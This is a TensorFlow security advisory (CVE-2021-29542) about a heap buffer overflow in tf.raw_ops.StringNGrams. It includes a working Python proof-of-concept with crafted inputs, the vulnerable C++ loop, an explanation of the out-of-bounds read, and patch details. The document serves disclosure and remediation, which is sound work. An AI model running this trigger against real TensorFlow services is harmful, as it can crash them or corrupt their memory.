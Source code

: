 ## TFSA-2021-029: Heap buffer overflow in `StringNGrams`

### CVE Number
CVE-2021-29542

### Impact
An attacker can cause a heap buffer overflow by passing crafted inputs to
`tf.raw_ops.StringNGrams`:

```python
import tensorflow as tf

separator = b'\x02\x00'
ngram_widths = [7, 6, 11]
left_pad = b'\x7f\x7f\x7f\x7f\x7f'
right_pad = b'\x7f\x7f\x25\x5d\x53\x74'
pad_width = 50
preserve_short_sequences = True

l = ['', '', '', '', '', '', '', '', '', '', '']

data = tf.constant(l, shape=[11], dtype=tf.string)

l2 = [0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
     0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
     0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
     0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
     0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
     0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
     0, 0, 3]
data_splits = tf.constant(l2, shape=[116], dtype=tf.int64)

out = tf.raw_ops.StringNGrams(data=data,
    data_splits=data_splits, separator=separator,
    ngram_widths=ngram_widths, left_pad=left_pad,
    right_pad=right_pad, pad_width=pad_width,
    preserve_short_sequences=preserve_short_sequences)
```

This is because the
[implementation](https://github.com/galeone/tensorflow/blob/1cdd4da14282210cc759e468d9781741ac7d01bf/tensorflow/core/kernels/string_ngrams_op.cc#L171-L185)
fails to consider corner cases where input would be split in such a way that the
generated tokens should only contain padding elements:

```cc
for (int ngram_index = 0; ngram_index < num_ngrams; ++ngram_index) {
  int pad_width = get_pad_width(ngram_width);
  int left_padding = std::max(0, pad_width - ngram_index);
  int right_padding = std::max(0, pad_width - (num_ngrams - (ngram_index + 1)));
  int num_tokens = ngram_width - (left_padding + right_padding);
  int data_start_index = left_padding > 0 ? 0 : ngram_index - pad_width;
  ...
  tstring* ngram = &output[ngram_index];
  ngram->reserve(ngram_size);
  for (int n = 0; n < left_padding; ++n) {
    ngram->append(left_pad_);
    ngram->append(separator_);
  }
  for (int n = 0; n < num_tokens - 1; ++n) {
    ngram->append(data[data_start_index + n]);
    ngram->append(separator_);
  }
  ngram->append(data[data_start_index + num_tokens - 1]); // <<<
  for (int n = 0; n < right_padding; ++n) {
    ngram->append(separator_);
    ngram->append(right_pad_);
  }
  ...
}
```

If input is such that `num_tokens` is 0, then, for `data_start_index=0` (when
left padding is present), the marked line would result in reading `data[-1]`.

### Patches
We have patched the issue in GitHub commit
[ba424dd8f16f7110eea526a8086f1a155f14f22b](https://github.com/galeone/tensorflow/commit/ba424dd8f16f7110eea526a8086f1a155f14f22b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
